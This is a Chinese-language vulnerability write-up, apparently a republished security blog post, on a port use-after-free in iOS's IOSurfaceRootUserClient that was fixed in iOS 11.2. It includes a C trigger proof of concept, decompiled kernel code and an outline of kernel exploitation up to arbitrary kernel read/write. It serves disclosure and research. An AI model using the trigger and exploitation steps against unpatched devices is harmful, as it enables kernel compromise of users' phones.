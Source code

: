 > 原文链接: https://www.anquanke.com//post/id/89129 


# IOSurfaceRootUserClient Port UAF漏洞分析


                                阅读量   
                                **108585**
                            
                        |
                        
                                                                                    



[![](https://p2.ssl.qhimg.com/t01e0eb27cddc17e549.png)](https://p2.ssl.qhimg.com/t01e0eb27cddc17e549.png)



## 漏洞描述

苹果前天发布了iOS 11.2版本（安全更新细节尚未公布），经测试发现此次更新修复了一个沙盒内可以直接利用的内核漏洞。我们团队在去年发现该漏洞，并一直在内部的研究环境中使用该漏洞对手机进行越狱。漏洞存在于IOSurfaceRootUserClient类的调用方法中，可以导致port的UAF。首先我们给出该漏洞触发的POC：

```
// open user client
CFMutableDictionaryRef matching = IOServiceMatching("IOSurfaceRoot");
io_service_t service = IOServiceGetMatchingService(kIOMasterPortDefault, matching);
io_connect_t connect = 0;
IOServiceOpen(service, mach_task_self(), 0, &amp;connect);

// add notification port with same refcon multiple times
mach_port_t port = 0;
mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &amp;port);
uint64_t references;
uint64_t input[3] = `{`0`}`;
input[1] = 1234;  // keep refcon the same value
for (int i=0; i&lt;3; i++)
`{`
    IOConnectCallAsyncStructMethod(connect, 17, port, &amp;references, 1, input, sizeof(input), NULL, NULL);
`}`
IOServiceClose(connect);
```

通过POC代码可以看到漏洞存在于17号调用函数，定位后对其进行逆向分析。该函数会将传入的port、callback、refcon等数据保存起来，以供需要向用户态发送消息时使用。传入的数据大小是0x18，前两个64位数据分别是callback地址和refcon的值。值得注意的是在保存数据前会首先检查相同的refcon是否已经存在，如果存在则认为已经添加过了，会调用releaseAsyncReference64函数释放reference，从而调用iokit_release_port_send释放我们传入的port，并且返回0xE00002C9号错误。

```
if ( !a3-&gt;asyncReference )
    return 0xE00002C2LL;
  input = (__int64)a3-&gt;structureInput;
  reference = (__int64)a3-&gt;asyncReference;
  v6 = *(_QWORD *)(a1 + 224);
  v7 = 0xE00002BDLL;
  IORecursiveLockLock_53(*(_QWORD *)(v6 + 264));
  v8 = *(_QWORD *)(v6 + 344);
  if ( v8 )
  `{`
    // 检查相同refcon的数据是否已经存在
    while ( *(_QWORD *)(v8 + 32) != *(_QWORD *)(input + 8) || *(_QWORD *)(v8 + 88) != a1 )
    `{`
      v8 = *(_QWORD *)v8;
      if ( !v8 )
        goto LABEL_8;
    `}`
    IOUserClient::releaseAsyncReference64(reference);
    v7 = 0xE00002C9LL;
  `}`
  else
  `{`
    // 分配内存并通过setAsyncReference64初始化，保存port/callback/refcon
LABEL_8:
    v9 = IOMalloc_53(96LL);
    v10 = v9;
    if ( v9 )
    `{`
      v11 = v6 + 344;
      memset_53((void *)v9, 0, 0x60uLL);
      IOUserClient::setAsyncReference64(v10 + 16, *(_QWORD *)reference, *(_QWORD *)input, *(_QWORD *)(input + 8));
      *(_QWORD *)(v10 + 88) = a1;
      *(_QWORD *)(v10 + 80) = *(_QWORD *)(input + 16);
      v12 = *(_QWORD *)(v6 + 344);
      *(_QWORD *)v10 = *(_QWORD *)(v6 + 344);
      if ( v12 )
        *(_QWORD *)(v12 + 8) = v10;
      else
        *(_QWORD *)(v6 + 352) = v10;
      v7 = 0LL;
      *(_QWORD *)v11 = v10;
      *(_QWORD *)(v10 + 8) = v11;
    `}`
  `}`
  IORecursiveLockUnlock_53(*(_QWORD *)(v6 + 264));
  return v7;
`}`
```

如果只是单纯分析该函数的行为，并不存在明显的问题，因此需要结合整个代码路径来看。我们知道IOKit是MIG的子系统，因此用户态最终封装一个message后通过mach_msg发送给内核处理并接受返回消息。而通过mach_msg传输一个port，需要发送complex的消息，内核则在copyin消息的时候会把port name翻译成对应的port地址，并增加一个引用。随后把消息交给ipc_kobject_server处理，观察ipc_kobject_server函数的分发处理：

```
/*
   * Find the routine to call, and call it
   * to perform the kernel function
   */
  ipc_kmsg_trace_send(request, option);
  `{`
    ...

    // 调用真正的处理函数，返回结果设置在reply消息内
    (*ptr-&gt;routine)(request-&gt;ikm_header, reply-&gt;ikm_header);

    ...
  `}`

  // 如果返回的是简单消息，kr被设置为处理函数的返回值
  if (!(reply-&gt;ikm_header-&gt;msgh_bits &amp; MACH_MSGH_BITS_COMPLEX) &amp;&amp;
     ((mig_reply_error_t *) reply-&gt;ikm_header)-&gt;RetCode != KERN_SUCCESS)
    kr = ((mig_reply_error_t *) reply-&gt;ikm_header)-&gt;RetCode;
  else
    kr = KERN_SUCCESS;

  if ((kr == KERN_SUCCESS) || (kr == MIG_NO_REPLY)) `{`
    /*
     *  The server function is responsible for the contents
     *  of the message.  The reply port right is moved
     *  to the reply message, and we have deallocated
     *  the destination port right, so we just need
     *  to free the kmsg.
     */
    // 如果返回成功则简单释放传入消息的内存
    ipc_kmsg_free(request);

  `}` else `{`
    /*
     *  The message contents of the request are intact.
     *  Destroy everthing except the reply port right,
     *  which is needed in the reply message.
     */
    // 如果返回错误，则释放传入消息相关的数据（包含port）
    request-&gt;ikm_header-&gt;msgh_local_port = MACH_PORT_NULL;
    ipc_kmsg_destroy(request);
  `}`
```

可以看到如果UserClient的处理函数返回错误，那么上层会调用ipc_kmsg_destroy-&gt;ipc_kmsg_clean-&gt;ipc_kmsg_clean_body最终释放传入的port和ool内存。此时我们再看IOSurfaceRootUserClient的17号调用，当它返回错误的时候，认为应该由自己去释放这个port而没有考虑到上层的清理代码，导致这个port会被额外释放一次。



## 利用思路

这是一个典型的port UAF类型的漏洞。我们可以任意创建一个port，通过17号调用释放该port，同时保留用户态的port name指向已经被释放的port地址。典型的利用思路是通过cross zone attack来填充一个虚假的port：
- 用ool ports来填充，我们可以读取一个port的的真实地址，导致堆地址泄露
- 用clock port来填充，可以猜测内核的基地址
- 用task port来填充，可以实现任意内核读取
- 用真实的kernel task port来填充，可以直接获取内核port，实现任意内核读写


## Mitigations
- iOS 10.3以后增加了对kernel task port的保护，不过该保护仅仅比较port指向的task是否等于kernel_task，并未对立面的内容进行校验
- iOS 11以后移除了mach_zone_force_gc的接口来阻止cross zone attack，需要有别的途径能够触发gc


## Fix

iOS 11.2中检测到要注册的refcon已经存在后也不会调用releaseAsyncReference64去释放port了。

#### 最后想说*****这次又是被谁撞了 TT
